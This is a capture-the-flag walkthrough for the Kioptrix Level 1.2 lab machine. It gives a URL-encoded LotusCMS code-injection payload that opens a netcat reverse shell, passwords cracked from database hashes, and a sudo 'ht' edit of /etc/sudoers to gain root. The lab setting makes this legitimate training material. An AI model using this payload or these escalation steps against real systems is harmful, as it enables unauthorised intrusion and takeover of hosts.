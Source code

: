 # Kioptrix: Level 1.2 

- [Tools](#tools)
- [Gaining Access](#gaining-access)
- [Priviledge Escalation](#priviledge-escalation)

Machine: https://www.vulnhub.com/entry/kioptrix-level-12-3,24/

## Tools
1. [NMap](https://NMap.org)
2. dirb
3. Netcat

## Gaining Access
1. Got IP with netdiscover, in my case IP is 192.168.0.13. At first as usual scanned with nmap.
2. Running dirb gives us some links.
3. If we open the ip there is a website. 
4. If we click on login, we can get login panel powered by LotusCMS.
5. If we google `LotusCMS RCE exploit`. We can find many exploits to get RCE. So, I studied the exploit and crafted a payload for reverse shell. Opening the crafted link gives reverse shell. `http://192.168.0.13/index.php?page=index%27)%3B%24{system(%27nc+-e+%2Fbin%2Fsh+<ip address>+<port number>%27)}%3B%23` while listening on netcat if we open that link we will get a reverse shell.

## Priviledge Escalation
1. After some searching, I got some credentials inside `/home/www/kioptrix3.com/gallery/gconfig.php`.
2. We can use this credential on a previously found link using dirb `http://192.168.0.13/phpmyadmin/`. 
3. After logging in we get two username and hash inside database.
4. So, if we decrypt those hash using crackstation, we get password of `dreg` is `Mast3r` and pasword of `loneferret` is `starwars`.
5. We can get ssh using those credentials. As dreg I got nothing important. So, I tried `loneferret` and `sudo` is enabled there and got some `sudo binary`.
6. `su` is not exploitable as user `loneferret`, so I tried to exploit `ht` and to exploit `ht` I need to `export TERM=xterm`.
7. Now I found this article https://vk9-sec.com/ht-privilege-escalation/ and followed these simple steps to root. So, at first I opened `sudo ht` and then pressed `F3` to select `/etc/sudoers` to open.
8. Now added `/bin/bash` to sudoers as instructed in the article and saved the file with `F2` and quit with `F10` or `CTRL+C`.
9. Now just use `sudo /bin/bash` to get root shell.
10. Now we can find a file `Congrats.txt` inside `/root` directory and this is the flag file containing a big paragraph.

Author: Zishan Ahamed Thandar

